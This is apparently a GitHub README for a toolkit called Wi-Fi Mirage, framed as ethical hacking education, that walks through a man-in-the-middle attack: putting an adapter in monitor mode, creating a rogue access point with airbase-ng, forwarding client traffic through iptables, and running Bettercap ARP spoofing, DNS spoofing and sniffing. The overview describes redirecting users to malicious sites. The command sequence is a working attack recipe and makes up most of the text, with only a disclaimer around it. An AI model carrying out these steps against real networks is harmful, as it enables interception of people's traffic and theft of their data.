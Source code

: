 # Wi-Fi-Mirage-The-Illusion-of-Security
Wi-Fi Mirage: An ethical hacking toolkit to create rogue Wi-Fi access points, intercept traffic, and demonstrate network vulnerabilities.


## 🚀 Introduction
Welcome to the ultimate guide on setting up a **Man-in-the-Middle (MITM) Attack** in a controlled environment! This project is designed for educational purposes to demonstrate network vulnerabilities and the power of ethical hacking. Remember, **with great power comes great responsibility**—always have permission before testing any network!

## 🎯 Project Overview
In this project, we’ll create a rogue Wi-Fi access point and use various tools to intercept and analyze network traffic. By following the steps below, you'll learn how to set up a MITM attack, capture packets, and perform DNS spoofing to redirect users.

## 🛠️ Tools Used
- **Aircrack-ng**: A suite of tools for wireless security auditing.
- **Bettercap**: An advanced, powerful, and flexible tool for network attacks and monitoring.
- **Wireshark**: A popular network protocol analyzer for capturing and inspecting packets.
- **iptables**: A user-space utility program for configuring the Linux kernel firewall.

## 🧩 Approaches to MITM
1. **Setting Up a Rogue Access Point**: Use `airbase-ng` to create a fake Wi-Fi network.
2. **Network Sniffing**: Capture packets from the network to analyze traffic.
3. **DNS Spoofing**: Redirect users to malicious sites using Bettercap’s DNS spoofing features.
4. **ARP Spoofing**: Mislead devices into sending their data to your machine instead of the intended destination.

## 📜 Commands Used
Here’s the command lineup for the MITM setup:

### 1. Start Monitor Mode
Make sure your Wi-Fi adapter is ready to capture packets.

```bash
sudo airmon-ng start wlan0
```
![WhatsApp Image 2024-10-06 at 00 32 28_28274e26](https://github.com/user-attachments/assets/481169a9-3d9d-4d27-9af0-f07d9423caec)


### 2. Create the Rogue Wi-Fi Network
Set up a fake Wi-Fi network named "Test-Wifi".

```bash
sudo airbase-ng -e "Test-Wifi" -c 11 wlan0
```

### 3. Configure the Fake Access Point
Bring the interface up and assign it an IP address.

```bash
sudo ifconfig at0 up
sudo ifconfig at0 192.168.1.1 netmask 255.255.255.0
```

### 4. Enable Internet Access for Clients
Allow clients connected to our rogue AP to access the internet.

```bash
sudo iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
sudo iptables --append FORWARD --in-interface at0 -j ACCEPT
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
![WhatsApp Image 2024-10-06 at 00 32 30_fd2c03b7](https://github.com/user-attachments/assets/e71e7926-26b3-48ab-b7a9-eb3c4608079f)

### 5. Start Bettercap
Launch Bettercap with the fake interface.

```bash
sudo bettercap -iface at0
```

### 6. Execute Bettercap Commands
Once inside Bettercap, run the following commands to set up sniffing and spoofing:

```bash
net.probe on
net.show
arp.spoof on
dns.spoof on
net.sniff on
```
![WhatsApp Image 2024-10-06 at 00 36 19_7c453712](https://github.com/user-attachments/assets/5142387b-b5db-414e-ad67-4f7bdb912449)

### 7. Ping
Checking whethere the host is up or not
![WhatsApp Image 2024-10-06 at 00 32 29_3ef2e762](https://github.com/user-attachments/assets/df6194cf-b047-4ac2-b500-23c73279f544)


### 7. Capture and Analyze Traffic
Use Wireshark to analyze captured packets. You can start Wireshark in a separate terminal.

```bash
wireshark
```
![WhatsApp Image 2024-10-06 at 00 32 28_0704eee3](https://github.com/user-attachments/assets/b6623d0d-7c32-49e4-99a2-1aaf91266a65)


## 📱 Mobile Connection Screenshot
![WhatsApp Image 2024-10-06 at 00 32 30_ccc72314](https://github.com/user-attachments/assets/7578e02e-fabb-422b-baf1-f2109657856c)

## ⚠️ Disclaimer
This guide is for educational purposes only. Use the information responsibly and only on networks where you have explicit permission to perform penetration testing. Unauthorized access to networks is illegal and unethical.

## 🙌 Conclusion
This project provides a foundational understanding of network vulnerabilities and ethical hacking. Remember to share your findings and experiences responsibly!
